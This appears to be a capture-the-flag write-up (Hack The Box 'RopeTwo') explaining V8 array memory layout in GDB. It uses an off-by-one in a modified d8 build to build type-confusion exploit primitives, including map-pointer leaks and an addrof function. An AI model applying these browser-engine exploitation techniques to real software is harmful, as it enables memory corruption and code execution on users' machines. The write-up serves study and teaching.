```console?comments=true
kali@kali:~/htb/ropetwo$ cd v8
kali@kali:~/htb/ropetwo/v8$ export PATH=/home/kali/htb/ropetwo/depot_tools:$PATH
kali@kali:~/htb/ropetwo/v8$ gclient sync
Syncing projects: 100% (28/28), done.
kali@kali:~/htb/ropetwo/v8$ ./build/install-build-deps.sh --unsupported
Running as non-root user.
You might have to enter your password one or more times for 'sudo'.
[snip]
```

Then we can start to compile it, and do something else for a while. We'll also build the release binary in the same manner.
```console?comments=true
kali@kali:~/htb/ropetwo/v8$ ./tools/dev/v8gen.py x64.debug
kali@kali:~/htb/ropetwo/v8$ ls -l ./out.gn/x64.debug/
total 112
-rw-r--r-- 1 kali kali   119 Feb  4 17:59 args.gn
-rw-r--r-- 1 kali kali 23857 Feb  4 17:59 build.ninja
-rw-r--r-- 1 kali kali  3330 Feb  4 17:59 build.ninja.d
drwx------ 9 kali kali  4096 Feb  4 17:59 obj
-rw-r--r-- 1 kali kali 75869 Feb  4 17:59 toolchain.ninja
kali@kali:~/htb/ropetwo/v8$ time ninja -C ./out.gn/x64.debug
ninja: Entering directory `./out.gn/x64.debug'
[1463/1463] STAMP obj/gn_all.stamp

real    5m26.249s
user    90m40.550s
sys     3m18.872s
```

Once it is compiled, we can run the JavaScript REPL interactively:

```console?comments=true
kali@kali:~/htb/ropetwo/v8$ ./out.gn/x64.debug/d8 --shell
V8 version 8.5.0 (candidate)
d8> console.log("Hello, world!");
Hello, world!
undefined
d8>
```

Even better, we can run it inside of [GDB, the GNU Debugger](https://www.gnu.org/software/gdb/). I've got [pwndbg](https://github.com/pwndbg/pwndbg) installed as a plugin too, which gives GDB some very helpful improved functionality - I'd highly recommend it if you're working with GDB for exploit development or reverse engineering. Running the d8 binary with `--allow-natives-syntax` also allows access to some of its debugging features, like the `%DebugPrint` function.

```console?comments=true
kali@kali:~/htb/ropetwo/v8$ gdb -q ./out.gn/x64.debug/d8
pwndbg: loaded 194 commands. Type pwndbg [filter] for a list.
pwndbg: created $rebase, $ida gdb functions (can be used with print/break)
Reading symbols from ./out.gn/x64.debug/d8...

warning: Could not find DWO CU obj/d8/d8.dwo(0x63e66716d9c35f14) referenced by CU at offset 0xc0 [in module /home/kali/htb/ropetwo/v8/out.gn/x64.debug/d8]
pwndbg> set print thread-events off
pwndbg> run --allow-natives-syntax --shell
Starting program: /home/kali/htb/ropetwo/v8/out.gn/x64.debug/d8 --allow-natives-syntax --shell
[Thread debugging using libthread_db enabled]
Using host libthread_db library "/lib/x86_64-linux-gnu/libthread_db.so.1".
V8 version 8.5.0 (candidate)
d8> console.log("Hello, world!")
Hello, world!
undefined
d8>
```

Okay, so we now have a way of easily running JavaScript in the v8 engine, and a way of debugging the process memory. We can hop in the metaphorical car made of JavaScript (oh god), and drive the v8 engine all the way to Example Town, where our mechanic (GDB) can pop the hood and show us how it blends JavaScript and developer tears into a digital smoothie of animated web pages and high CPU load.

(I'm never getting in that car, Mum.)


## Unblending the digital smoothie

At this stage, we probably have a theoretical knowledge of how JavaScript uses memory (it can put stuff in it and usually get it back later), but hands-on experience is what transforms that knowledge into understanding. Let's create some arrays, and take a look at how JavaScript displays and stores them.

If you're unfamiliar with this, please don't be overwhelmed! You're about to see an eye-watering amount of hexadecimals, and you don't need to understand what they all mean. A key point to clarify however, is that a hexadecimal string could either be representing part of or a whole raw value (like an integer, or a few bytes in the middle of a string), or it could be a pointer to a memory address, or it could be a tagged pointer and therefore technically both.

So, let's validate our understanding. Creating an array of integers should create at least a [JSArray](https://chromium.googlesource.com/v8/v8/+/70bd7cf0ef618621c16ae3f5ba2db614ac8ef996/src/objects/js-array.h) and a [FixedArray](https://chromium.googlesource.com/v8/v8/+/70bd7cf0ef618621c16ae3f5ba2db614ac8ef996/src/objects/fixed-array.h). Because it's open source, we can read the C headers and code that creates them for additional understanding.

(note: if you re-create this, your memory addresses will certainly be different for reasons I'll explain later.)

```
d8> var example_array = [1, 2, 3, 4, 5, 6];
undefined
d8> %DebugPrint(example_array)
DebugPrint:
0x19bb080c5e31: [JSArray]
 - map: 0x19bb08281869 <Map(PACKED_SMI_ELEMENTS)> [FastProperties]
 - prototype: 0x19bb0824923d <JSArray[0]>
 - elements: 0x19bb0824ffb9 <FixedArray[6]> [PACKED_SMI_ELEMENTS (COW)]
 - length: 6
 - properties: 0x19bb080406e9 <FixedArray[0]> {
    #length: 0x19bb081c0165 <AccessorInfo> (const accessor descriptor)
 }
 - elements: 0x19bb0824ffb9 <FixedArray[6]> {
           0: 1
           1: 2
           2: 3
           3: 4
           4: 5
           5: 6
 }
0x19bb08281869: [Map]
 - type: JS_ARRAY_TYPE
 - instance size: 16
 - inobject properties: 0
 - elements kind: PACKED_SMI_ELEMENTS
 - unused property fields: 0
 - enum length: invalid
 - back pointer: 0x19bb0804030d <undefined>
 - prototype_validity cell: 0x19bb081c0451 <Cell value= 1>
 - instance descriptors #1: 0x19bb08249911 <DescriptorArray[1]>
 - transitions #1: 0x19bb0824992d <TransitionArray[4]>Transition array #1:
     0x19bb08042f3d <Symbol: (elements_transition_symbol)>: (transition to HOLEY_SMI_ELEMENTS) -> 0x19bb082818e1 <Map(HOLEY_SMI_ELEMENTS)>

 - prototype: 0x19bb0824923d <JSArray[0]>
 - constructor: 0x19bb08249111 <JSFunction Array (sfi = 0x19bb081cc41d)>
 - dependent code: 0x19bb080401ed <Other heap object (WEAK_FIXED_ARRAY_TYPE)>
 - construction counter: 0

[1, 2, 3, 4, 5, 6]
```

Now, there's a bit going on here, but lets break it down. We can see that the JSArray object located in memory at `0x19bb080c5e31` contains an "Elements Pointer" to a FixedArray (found at `0x19bb0824ffb9`) of our six integers, and it is a datatype of PACKED_SMI_ELEMENTS (aka, 31-bit integers) - which makes sense, the array only contains integers and therefore only (currently) needs room for integers. We can also see a Map object at `0x19bb08281869` which describes the JSArray structure and properties.

First, let's look at the elements array at `0x19bb0824ffb9`. Remember, because it is a tagged pointer, we need to subtract one from the memory address in this case. Every field in the object is 32 bits in length, so we want GDB to show us n 'words' with `x/[n]xw`. It's also easy to show it as unsigned integers too, by using `u` for unsigned integer instead of `x` for hexadecimals. We can send the interrupt signal to the program and drop down to the GDB prompt by pressing `[ctrl]+[c]`.

```GDB
d8> ^C
Thread 1 "d8" received signal SIGINT, Interrupt.
pwndbg> x/12xw 0x19bb0824ffb9 - 1
0x19bb0824ffb8: 0x080404d9      0x0000000c      0x00000002      0x00000004
0x19bb0824ffc8: 0x00000006      0x00000008      0x0000000a      0x0000000c
0x19bb0824ffd8: 0x080411c9      0x00000000      0x0824ffb9      0x08040489  # Ignore this line... for now. Spoilers.
pwndbg> x/8uw 0x19bb0824ffb9 - 1
0x19bb0824ffb8: 134481113       12      2       4
0x19bb0824ffc8: 6               8       10      12
```

Here, we actually see the array at it exists in memory: a map pointer (`0x080404d9`), the length of the backing store (`0x0000000c`, 12 in decimal), and then the values of our array (`0x00000002`, `0x00000004`, `0x00000006`, `0x00000008`, `0x0000000a`, and `0x0000000c`). Why not `0x00000001`, `0x00000002` etc? Why is the length twelve and not six?

Remember, because they are SMI values, which are tagged with the least significant bit set to one to indicate they are not pointers! The same applies to the length value, which is actually six in decimal once the least significant bit is dropped. Python can help shift that bit if we're unsure, but we can also divide by two to account for the zero added to the end of the binary representation. *Maths!*

```python
>>> 0x00000002 >> 1
1
>>> 0x00000004 >> 1
2
>>> 0x00000006 >> 1
3
```

Great, so we can identify our values in memory. Simple enough, let's look closer at the JSArray object itself, which is at `0x19bb080c5e31`.

```GDB
pwndbg> x/4xw 0x19bb080c5e31 - 1
0x19bb080c5e30: 0x08281869      0x080406e9      0x0824ffb9      0x0000000c
```

Immediately, we can see a few values that stand out. The third pointer (`0x0824ffb9`) points to the top of the FixedArray object which holds our array values (we just looked at that). The fourth pointer (`0x0000000c`) is again, the length of the array (six). The first and second pointers also make sense when we look at it for a moment - they are the Map Pointer and Properties Pointer respectively.

"But hang on", I hear you say. "I thought the address of the map was `0x19bb08281869`, not `0x08281869`! What gives?" Well, that's the pointer compression at work. The value at address `0x19bb080c5e30` is only `0x08281869` to fit in the 32-bit (4 byte) address space allocated for it. A 64-bit pointer has up to 8 bytes (eg: `0x1122334455667788`).

If we follow the Map Pointer, it will point to a [Map Object](https://chromium.googlesource.com/v8/v8/+/70bd7cf0ef618621c16ae3f5ba2db614ac8ef996/src/objects/map.h#103). We don't really need to understand the layout of the Map object for this, it is sufficent to know that it defines how the items in the FixedArray are stored. Looking at the code shows us how it stores all this data, and since the official source code has some ASCII art, I've got to have some too. *There are rules*.

```
       A JSArray object                      A FixedArray object                      A Map Object                          Another Map Object
       @ 0x19bb080c5e30                      @ 0x19bb0824ffb8                        @ 0x19bb08281868                       @ 0x19bb080404d9
                                 +----------------------------------------+          (for a JSArray)                        (For a FixedArray)
+------------------------------+ |  -->+------------------------------+   +-->+------------------------------+   X-->+------------------------------+
|                              | |  |  |                              |       |                              |       |                              |
|         Map Pointer          +-^  |  |         Map Pointer          +-->X   |         Map Pointer          |       |         Map Pointer          |
|      0x19bb08281869 - 1      |    |  |          0x080404d9 - 1      |       |                              |       |                              |
|                              |    |  |      (to FixedArray Map)     |       |                              |       |                              |
+------------------------------+    |  +------------------------------+       +------------------------------+       +------------------------------+
|                              |    |  |                              |       |                              |       |                              |
|      Properties Pointer      |    |  |     Backing Store Length     |       |      Int field of bytes      |       |      Int field of bytes      |
|      0x19bb080406e9 - 1      |    |  |          0x0000000c - 1      |       |                              |       |                              |
|                              |    |  |                              |       |                              |       |                              |
+------------------------------+    |  +------------------------------+       +------------------------------+       +------------------------------+
|                              |    |  |                              |       |                              |       |                              |
|       Elements Pointer       +----+  |            index 0           |       |      Int field of bytes      |       |      Int field of bytes      |
|      0x19bb0824ffb9 - 1      |       |          0x00000002 - 1      |       |                              |       |                              |
|                              |       |                              |       |                              |       |                              |
+------------------------------+       +------------------------------+       +------------------------------+       +------------------------------+
|                              |       |                              |       |                              |       |                              |
|         Array Length         |       |            index 1           |       |      Int field of bytes      |       |      Int field of bytes      |
|          0x0000000c - 1      |       |          0x00000004 - 1      |       |                              |       |                              |
|                              |       |                              |       |                              |       |                              |
+------------------------------+       +------------------------------+       +------------------------------+       +------------------------------+
|                              |       |                              |       |                              |       |                              |
|        Other fields...       |       |            index 2           |       |          Prototype           |       |          Prototype           |
|                              |       |          0x00000006 - 1      |       |                              |       |                              |
|                              |       |                              |       |                              |       |                              |
+------------------------------+       +------------------------------+       +------------------------------+       +------------------------------+
                                       |                              |       |                              |       |                              |
                                       |            index 3           |       | Constructor or back pointer  |       | Constructor or back pointer  |
                                       |          0x00000008 - 1      |       |                              |       |                              |
                                       |                              |       |                              |       |                              |
                                       +------------------------------+       +------------------------------+       +------------------------------+
                                       |                              |       |                              |       |                              |
                                       |            index 4           |       |        Other fields...       |       |        Other fields...       |
                                       |          0x0000000a - 1      |       |                              |       |                              |
                                       |                              |       |                              |       |                              |
                                       +------------------------------+       +------------------------------+       +------------------------------+
                                       |                              |
                                       |            index 5           |
                                       |          0x0000000c - 1      |
                                       |                              |
                                       +------------------------------+

```

## What about other kinds of arrays?

So far, so good. Let's create another example, this time with two arrays (this time, I remembered to disable ASLR, so the base addresses will remain consistent, but they still probably won't be quite the same for you).

```GDB
pwndbg> set disable-randomization on
pwndbg> set print thread-events off
pwndbg> run --allow-natives-syntax --shell
Starting program: /home/kali/htb/ropetwo/v8/out.gn/x64.debug/d8 --allow-natives-syntax --shell
[Thread debugging using libthread_db enabled]
Using host libthread_db library "/lib/x86_64-linux-gnu/libthread_db.so.1".
V8 version 8.5.0 (candidate)
d8> var example_object = {"Haxx":1337}
undefined
d8> var example_array = [example_object]
undefined
d8> %DebugPrint(example_object)
DebugPrint:
0x1d70080c5e2d: [JS_OBJECT_TYPE]
 - map: 0x1d7008284e29 <Map(HOLEY_ELEMENTS)> [FastProperties]
 - prototype: 0x1d7008241351 <Object map = 0x1d70082801c1>
 - elements: 0x1d70080406e9 <FixedArray[0]> [HOLEY_ELEMENTS]
 - properties: 0x1d70080406e9 <FixedArray[0]> {
    #Haxx: 1337 (const data field 0)
 }
0x1d7008284e29: [Map]
 - type: JS_OBJECT_TYPE
 - instance size: 16
 - inobject properties: 1
 - elements kind: HOLEY_ELEMENTS
 - unused property fields: 0
 - enum length: invalid
 - stable_map
 - back pointer: 0x1d7008284e01 <Map(HOLEY_ELEMENTS)>
 - prototype_validity cell: 0x1d70081c0451 <Cell value= 1>
 - instance descriptors (own) #1: 0x1d70080c5e3d <DescriptorArray[1]>
 - prototype: 0x1d7008241351 <Object map = 0x1d70082801c1>
 - constructor: 0x1d700824136d <JSFunction Object (sfi = 0x1d70081c5971)>
 - dependent code: 0x1d70080401ed <Other heap object (WEAK_FIXED_ARRAY_TYPE)>
 - construction counter: 0

{Haxx: 1337}
d8> %DebugPrint(example_array)
DebugPrint:
0x1d70080c7549: [JSArray]
 - map: 0x1d7008281959 <Map(PACKED_ELEMENTS)> [FastProperties]
 - prototype: 0x1d700824923d <JSArray[0]>
 - elements: 0x1d70080c753d <FixedArray[1]> [PACKED_ELEMENTS]
 - length: 1
 - properties: 0x1d70080406e9 <FixedArray[0]> {
    #length: 0x1d70081c0165 <AccessorInfo> (const accessor descriptor)
 }
 - elements: 0x1d70080c753d <FixedArray[1]> {
           0: 0x1d70080c5e2d <Object map = 0x1d7008284e29>
 }
0x1d7008281959: [Map]
 - type: JS_ARRAY_TYPE
 - instance size: 16
 - inobject properties: 0
 - elements kind: PACKED_ELEMENTS
 - unused property fields: 0
 - enum length: invalid
 - back pointer: 0x1d7008281931 <Map(HOLEY_DOUBLE_ELEMENTS)>
 - prototype_validity cell: 0x1d70081c0451 <Cell value= 1>
 - instance descriptors #1: 0x1d7008249911 <DescriptorArray[1]>
 - transitions #1: 0x1d700824998d <TransitionArray[4]>Transition array #1:
     0x1d7008042f3d <Symbol: (elements_transition_symbol)>: (transition to HOLEY_ELEMENTS) -> 0x1d7008281981 <Map(HOLEY_ELEMENTS)>

 - prototype: 0x1d700824923d <JSArray[0]>
 - constructor: 0x1d7008249111 <JSFunction Array (sfi = 0x1d70081cc41d)>
 - dependent code: 0x1d70080401ed <Other heap object (WEAK_FIXED_ARRAY_TYPE)>
 - construction counter: 0

[{Haxx: 1337}]
```

So, this time we created an object, and an array that contains that object. Straight away, we can see that the map type of the array has changed from PACKED_SMI_ELEMENTS to PACKED_ELEMENTS, because the array no longer contains integers. The object itself also has a new map type of HOLEY_ELEMENTS - this makes sense, it is likely underpinned with a tree data structure, one of those things you learned about in uni, totally moved on in your life, and then re-learned to prep for that Google Interview that one time.

A quick check of the JSArray of the `example_array` object looks pretty similar to before:

```GDB
pwndbg> x/4xw 0x1d70080c7549 - 1
0x1d70080c7548: 0x08281959      0x080406e9      0x080c753d      0x00000002			# Map Pointer, Property pointer, Elements pointer, length
```

Taking the elements pointer and checking the actual elements of the array (aka, the FixedArray object) also looks familiar:

```GDB
pwndbg> x/4xw 0x18d5080c7589 - 1
0x1d70080c753c: 0x080404b1      0x00000002      0x080c5e2d      0x08281959 			# Elements pointer, length, index 0 address
```

Note that both the array and the object have different Map pointers, because the v8 engine needs to keep track of their data structures, and an array and an object both have different data structures. Bytes within their mapped ranges will have different meanings and different values. This will be important later.

I mentioned this earlier, but what if we have two very similar entries? Let's create another array.

```javascript
d8> var example_array_2 = [example_object]
undefined
d8> %DebugPrint(example_array_2)
DebugPrint: 0x1d70080c7f45: [JSArray]
 - map: 0x1d7008281959 <Map(PACKED_ELEMENTS)> [FastProperties]
 - prototype: 0x1d700824923d <JSArray[0]>
 - elements: 0x1d70080c7f39 <FixedArray[1]> [PACKED_ELEMENTS]
 - length: 1
 - properties: 0x1d70080406e9 <FixedArray[0]> {
    #length: 0x1d70081c0165 <AccessorInfo> (const accessor descriptor)
 }
 - elements: 0x1d70080c7f39 <FixedArray[1]> {
           0: 0x1d70080c5e2d <Object map = 0x1d7008284e29>
 }
0x1d7008281959: [Map]
 - type: JS_ARRAY_TYPE
 - instance size: 16
 - inobject properties: 0
 - elements kind: PACKED_ELEMENTS
 - unused property fields: 0
 - enum length: invalid
 - back pointer: 0x1d7008281931 <Map(HOLEY_DOUBLE_ELEMENTS)>
 - prototype_validity cell: 0x1d70081c0451 <Cell value= 1>
 - instance descriptors #1: 0x1d7008249911 <DescriptorArray[1]>
 - transitions #1: 0x1d700824998d <TransitionArray[4]>Transition array #1:
     0x1d7008042f3d <Symbol: (elements_transition_symbol)>: (transition to HOLEY_ELEMENTS) -> 0x1d7008281981 <Map(HOLEY_ELEMENTS)>

 - prototype: 0x1d700824923d <JSArray[0]>
 - constructor: 0x1d7008249111 <JSFunction Array (sfi = 0x1d70081cc41d)>
 - dependent code: 0x1d70080401ed <Other heap object (WEAK_FIXED_ARRAY_TYPE)>
 - construction counter: 0

[{Haxx: 1337}]
```

Look, they both have a pointer to the same Map, `0x1d7008281959`. They both have the same prototype and properties too, which is expected. Aside from where the JSArrays and FixedArrays are located in memory, they are basically the same. This optimisation saves a lot of memory space (imagine consuming the overhead for defining how to use and address an array for every array you create).

Investigating further, an array of floating point values displays an interesting property too:

```javascript
d8> float_array = [1.1, 2.2, 3.3, 4.4, 5.5]
[1.1, 2.2, 3.3, 4.4, 5.5]
d8> %DebugPrint(float_array)
DebugPrint:
0x3e0c080c5e61: [JSArray]
 - map: 0x3e0c08281909 <Map(PACKED_DOUBLE_ELEMENTS)> [FastProperties]
 - prototype: 0x3e0c0824923d <JSArray[0]>
 - elements: 0x3e0c080c5e31 <FixedDoubleArray[5]> [PACKED_DOUBLE_ELEMENTS]
 - length: 5
 - properties: 0x3e0c080406e9 <FixedArray[0]> {
    #length: 0x3e0c081c0165 <AccessorInfo> (const accessor descriptor)
 }
 - elements: 0x3e0c080c5e31 <FixedDoubleArray[5]> {
           0: 1.1
           1: 2.2
           2: 3.3
           3: 4.4
           4: 5.5
 }
0x3e0c08281909: [Map]
 - type: JS_ARRAY_TYPE
 - instance size: 16
 - inobject properties: 0
 - elements kind: PACKED_DOUBLE_ELEMENTS
 - unused property fields: 0
 - enum length: invalid
 - back pointer: 0x3e0c082818e1 <Map(HOLEY_SMI_ELEMENTS)>
 - prototype_validity cell: 0x3e0c081c0451 <Cell value= 1>
 - instance descriptors #1: 0x3e0c08249911 <DescriptorArray[1]>
 - transitions #1: 0x3e0c0824995d <TransitionArray[4]>Transition array #1:
     0x3e0c08042f3d <Symbol: (elements_transition_symbol)>: (transition to HOLEY_DOUBLE_ELEMENTS) -> 0x3e0c08281931 <Map(HOLEY_DOUBLE_ELEMENTS)>

 - prototype: 0x3e0c0824923d <JSArray[0]>
 - constructor: 0x3e0c08249111 <JSFunction Array (sfi = 0x3e0c081cc41d)>
 - dependent code: 0x3e0c080401ed <Other heap object (WEAK_FIXED_ARRAY_TYPE)>
 - construction counter: 0

[1.1, 2.2, 3.3, 4.4, 5.5]

```

Lets look much closer at that FixedDoubleArray (the pointer to it is in the JSArray Elements Pointer field). Remembering that Chrome will store floats as 64-bit values and not 32-bit ones, instead of printing the data as 32-bit `w`ords, we'll print it out as 64-bit '`g`iant' words (Hey, I don't make up the names), in two different representations: `f`loats and he`x`adecimals. This lets us easily spot which ones are the floats, and draw some better context.

```GDB
pwndbg> x/8gf 0x3e0c080c5e31 - 1
0x3e0c080c5e30: 2.1286401089411109e-313 1.1000000000000001
0x3e0c080c5e40: 2.2000000000000002      3.2999999999999998
0x3e0c080c5e50: 4.4000000000000004      5.5
0x3e0c080c5e60: 4.738595637402551e-270  2.1286670740559296e-313
pwndbg> x/8gx 0x3e0c080c5e31 - 1
0x3e0c080c5e30: 0x0000000a08040a3d      0x3ff199999999999a
0x3e0c080c5e40: 0x400199999999999a      0x400a666666666666
0x3e0c080c5e50: 0x401199999999999a      0x4016000000000000
0x3e0c080c5e60: 0x080406e908281909      0x0000000a080c5e31
```

Obviously the floats are there, with their classic floating-point precision class `2.2000000000000002`. However, look a little closer at the last line. What's that after `5.5`? 

```GDB
0x3e0c080c5e60: 0x080406e908281909      0x0000000a080c5e31
                ^-- What is this??
```


Because we haven't had enough ASCII art yet, have another one and compare the two side by side to see the layout.

```
|                                ~~ other memory ~~                                 | # This is the memory before the Element Arrays
| PACKED_ELEMENTS ElementsArray Struct    | PACKED_DOUBLE_ELEMENTS ElementsArray    | # This doesn't actually exist in memory, it's just a table header for clarity
| (this array holds pointers to objects)  | (this array holds 64-bit floats)        |
+=========================================+=========================================+
| Pointer (4b) (To FixedArray)            | Pointer (4b) (to FixedDoubleArray)      |
+-----------------------------------------+-----------------------------------------+
| Backing store length (4b)               | Backing store length (4b)               |
+-----------------------------------------+-----------------------------------------+
| Index 0 (4b)                            | Index 0 (8b)                            |
+-----------------------------------------+                                         |
| Index 1 (4b)                            |                                         |
+-----------------------------------------+-----------------------------------------+
| Index 2 (4b)                            | Index 1 (8b)                            |
+-----------------------------------------+                                         |
| Index 3 (4b)                            |                                         |
+=========================================+=========================================+  # This represents the theoretical end of both Element Arrays
| 0x1d7008281959                          | 0x080406e908281909                      |  # This is the data in memory after the Element Arrays
|                                ~~ other memory ~~                                 |
```

So, both Elements Arrays have the same general structure, except the one for floats is designed to handle 64-bit values. But the pointer right at the end of the Elements Array points to... the Map for that Array type! Its printed right there in the `%DebugPrint` output!

```GDB
0x3e0c08281909: [Map]
 - type: JS_ARRAY_TYPE
 - instance size: 16
 - inobject properties: 0
 - elements kind: PACKED_DOUBLE_ELEMENTS
```

This answers the question we've been skirting around this whole time - "What lies past the end of an array?" Answer: a pointer to the map that defines the structure of the Elements Array that immediately precedes it.

Of course, we can also double-check:

```javascript
d8> float_array.GetLastElement()
4.738595637402551e-270
```

That matches the decimal output shown earlier. This presents us with an attractive opportunity. If we abused the `SetLastElement()` function to write exactly one item past the end of the array (thanks to the off-by-one error) and overwrite that pointer with a pointer to a *different* Map object, we could create a situation known as a *Type Confusion*. We could write data into an array as one type, overwrite the pointer, and then when we next try to use the Array, v8 will follow that pointer to check how we safely address the content within it, and get a different set of rules.

Thank you for neglecting your other responsibilities and reading this far in! Hopefully, you should now have a much more solid understanding of the secrets of Arrays in v8. It's not like a Fight Club secret though, you're allowed to tell people about them. There aren't rules about that.


## Converting between raw memory values and JavaScript Data Types, and other terrible ideas

Before we go too much further though, we're going to be manipulating raw memory, and we need to be able to transform the two main datatypes that we've seen already into types that JavaScript can support. JavaScript has a bunch of primative data types you'd expect (booleans, strings, etc) and memory has... raw data. Its usually meaningless until a context is applied to it, like "treat this raw value like a float" or "this value is a tagged pointer". Two quick functions to handle the 32 and 64-bit transformations of floats (eg: `2.2000000000000002`) to how it is stored in memory (eg: `0x400199999999999a` when represented in hexadecimal) and back again will be required, taking into account the [endianness](https://en.wikipedia.org/wiki/Endianness) of the CPU:

```javascript
function float_to_integer(val, bits) {
    /* float_to_integer takes in a float value and converts it into a BigInt value, taking care of little endianness as well.*/
    if ((bits != 32) && (bits != 64)) {
        console.error("Wrong bit size!");
        return null;
    }
    var buffer = new ArrayBuffer(8);
    var buffer_float64 = new Float64Array(buffer);
    var buffer_uint = new Uint32Array(buffer);
    buffer_float64[0] = val;
    if (bits == 32) {
        return BigInt(buffer_uint[0]);
    } else if (bits == 64) {
        return BigInt(buffer_uint[0]) + (BigInt(buffer_uint[1]) << 32n);
    }
}

function integer_to_float(val, bits) {
    /* integer_to_float takes in a BigInt value and converts it into a float value. */
    if ((bits != 32) && (bits != 64)) {
        console.error("Wrong bit size!");
        return null;
    }
    var buffer = new ArrayBuffer(8);
    var buffer_float64 = new Float64Array(buffer);
    var buffer_uint = new Uint32Array(buffer);
    if (bits == 32) {
        buffer_uint[0] = Number(val & 0xffffffffn);
    } else if (bits == 64) {
        buffer_uint[0] = Number(val & 0xffffffffn);
        buffer_uint[1] = Number(val >> 32n);
    }
    return buffer_float64[0];
}
```

<!--
    For pasting into GDB/d8:

    function ftoi(val, bits) { var buf = new ArrayBuffer(8); var f64_buf = new Float64Array(buf); var u64_buf = new Uint32Array(buf); if ((bits != 32) && (bits != 64)) { console.error("Wrong bit size!"); return null; } f64_buf[0] = val; if (bits == 32) { return BigInt(u64_buf[0]); } else if (bits == 64) { return BigInt(u64_buf[0]) + (BigInt(u64_buf[1]) << 32n) } }
    function itof(val, bits) { var buf = new ArrayBuffer(8); var f64_buf = new Float64Array(buf); var u64_buf = new Uint32Array(buf); if ((bits != 32) && (bits != 64)) { console.error("Wrong bit size!"); return null; } if (bits == 32) { u64_buf[0] = Number(val & 0xffffffffn); } else if (bits == 64) { u64_buf[0] = Number(val & 0xffffffffn); u64_buf[1] = Number(val >> 32n) } return f64_buf[0] }

    array_1.SetLastElement(itof(0x41424344, 32))
-->

While there's probably a new JavaScript framework made in the last ten minutes that performs the above, this is sufficient for our use case.


## More JavaScript Shenanigans

You know how developers with passionate opinions on programming languages love to rag on JavaScript, often due to its rather lax equality rules?


Well, check this fun one out.

```javascript
d8> var array_1 = [1, 2, 3, 4, 5]
undefined
d8> array_1.length
5
d8> array_1.length = 3
3
d8> array_1.length
3
d8> array_1
[1, 2, 3]
```

Yes, you can totally just shorten an array by setting the length to a value of your choosing, the length property is not immutable. When you've sat down long enough to accept that, you can realise that the end of the array can be within the memory that was allocated for the array.

```javascript
d8> %DebugPrint(array_1)
DebugPrint:
0x1d70080c8241: [JSArray]
 - map: 0x1d7008281869 <Map(PACKED_SMI_ELEMENTS)> [FastProperties]
 - prototype: 0x1d700824923d <JSArray[0]>
 - elements: 0x1d70080c8289 <FixedArray[5]> [PACKED_SMI_ELEMENTS]
 - length: 3
 - properties: 0x1d70080406e9 <FixedArray[0]> {
    #length: 0x1d70081c0165 <AccessorInfo> (const accessor descriptor)
 }
 - elements: 0x1d70080c8289 <FixedArray[5]> {
           0: 1
           1: 2
           2: 3
         3-4: 0x1d7008040385 <the_hole>
 }
0x1d7008281869: [Map]
 - type: JS_ARRAY_TYPE
 - instance size: 16
 - inobject properties: 0
 - elements kind: PACKED_SMI_ELEMENTS
 - unused property fields: 0
 - enum length: invalid
 - back pointer: 0x1d700804030d <undefined>
 - prototype_validity cell: 0x1d70081c0451 <Cell value= 1>
 - instance descriptors #1: 0x1d7008249911 <DescriptorArray[1]>
 - transitions #1: 0x1d700824992d <TransitionArray[4]>Transition array #1:
     0x1d7008042f3d <Symbol: (elements_transition_symbol)>: (transition to HOLEY_SMI_ELEMENTS) -> 0x1d70082818e1 <Map(HOLEY_SMI_ELEMENTS)>

 - prototype: 0x1d700824923d <JSArray[0]>
 - constructor: 0x1d7008249111 <JSFunction Array (sfi = 0x1d70081cc41d)>
 - dependent code: 0x1d70080401ed <Other heap object (WEAK_FIXED_ARRAY_TYPE)>
 - construction counter: 0

[1, 2, 3]
```
Notice that the FixedArray is still set for a size of five, but items 3 and 4 are marked as *the hole*. How ominous.

When we combine our out-of-bounds read with shortening the end of the array into our own array, we have... an in-bounds read? That we had already? Well, yes. Underwhelming? Perhaps. But we're getting to the good bit, I promise.


# Exploitation Primitives

When exploiting an application through memory corruption, one of the things an attacker will look to do is build a set of primitives (small functions that can perform extremely basic, low-level tasks, like getting the memory address of an object, or reading or writing to a specific address). These primitives then form the building blocks of an exploit - by being able to locate where something is in memory, and then being able to read from or write to it, can allow an attacker to gain control of the execution flow, and hopefully then execute arbitrary code.


## Getting the memory address of an object

Pretty much the first thing that would be helpful to know is where in memory something is. Modern systems have memory protection mechanisms such as [ASLR](https://en.wikipedia.org/wiki/Address_space_layout_randomization) (Address Space Layout Randomization), which means the base addresses of the process, stack, heap and shared libraries are randomised in virtual memory. This means that we cannot create an exploit that targets specific memory addresses from debugging (just write this value here, and that value there and we're hacked in!), because they are guaranteed to be in different locations on the target. Being able to reliably determine the location of something in memory will be critical to reading and writing to it. A common technique for defeating this is if you can leak the address of a known function (such as the `system()` function in libc) you can calculate the offset by comparing it to a non-randomised load, and then dynamically resolve where functions should be based off the offset.

Let's break it down and build a primitive step by step. In order to leak a memory address, we're going to create some arrays that we can corrupt. That's easy enough:

```javascript
var float_arr = [1.1, 1.2, 1.3, 1.4, 1.5, 1.6];

obj1 = { A: 1.1 };
obj2 = { A: 2.2 };

obj_arr = [obj1, obj2];
```

We saw earlier that the Elements list of a FixedArray for an array of objects (as opposed to an array of integers) does not contain the objects themselves (because they could be all different sizes). Instead, it contains tagged pointers to those objects, which are nice and predictable fixed sizes. Normally we can't read the pointer value, the engine just follows the pointer to the object for us. However, if we created an array with some objects, and then shortened it, and then called `GetLastElement()`, we'd be able to read the pointer value - also known as the memory address of the object!

The first two address we will want are the addresses of the "array of floats" and "array of objects" Maps - by knowing what these values are, we'll be able to perform a type confusion when *overwriting* the pointers to the Maps in our objects. This will allow us to build the next block (faking objects), but let's get an information leak going first.

```javascript
// read pointer to array of floats Map
// easy, with an out-of-bounds read.
var float_arr_map = float_arr.GetLastElement();

// read pointer to array of objects Map
obj_arr.length = 1; // Yes, you can do this in JavaScript...
obj_arr_map = obj_arr.GetLastElement(); // read pointer to array of objects map

// Print some debugging.
console.log("Address of float array map: ", float_arr_map)
console.log("Address of object array map: ", obj_arr_map)
```

We can then build a function that will leak an address for us, through a type confusion created by overlapping an array of objects with an array of floats:

```javascript
// address-of primitive
function addrof(in_obj) {
    // First, put the obj whose address we want to find into index 0
    obj_arr[0] = in_obj;

    // Change the obj array's map to the float array's map
    obj_arr.SetLastElement(float_arr_map);

    // Get the address by accessing index 0
    let addr = obj_arr[0];

    // Set the map pointer back
    obj_arr.SetLastElement(obj_arr_map);

    // Return the address as a BigInt
    return float_to_integer(addr, 32);
}

// Print it!
console.log("Address of obj1:", addrof(obj1))
console.log("Address of obj2:", addrof(obj2))
```

